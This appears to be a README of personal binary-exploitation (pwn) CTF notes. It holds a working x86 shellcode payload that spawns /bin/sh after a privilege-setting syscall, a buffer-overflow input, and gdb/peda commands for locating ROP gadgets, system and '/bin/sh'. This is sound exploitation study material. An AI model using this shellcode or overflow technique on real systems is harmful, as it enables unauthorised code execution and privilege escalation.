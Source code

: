 # pwns

When solves a pwn challenge I will store the code here as it saves some time if I encounter same problem again

## Good commands

```sh
export SHELLCODE=$(python -c 'print "\x90"*100 + "\x90\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x89\xc2\x31\xc0\xb0\xa4\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')                        
```

```sh
run $(python -c "print 'A'*140 + 'BBBB'")
```

## Delete breakpoints in gdb

```sh
clear
delete
```

## Search memory

```sh
x/100s esp
x/100x esp
```

```sh
cli> rabin2 -i <binary> 
cli> rabin2 -R <binary>
```

## Search ropgadget in peda.

```sh
peda> ropsearch "pop rsi; pop rdi; pop rdb; ret"
```

## Print location of system

```sh
peda> p system
```

## Look for location of string /bin/sh

```sh
peda> searchstring '/bin/sh'
```

## Searchstring gdb wihtout peda

```sh
find &system,+9999999, "sh"
```
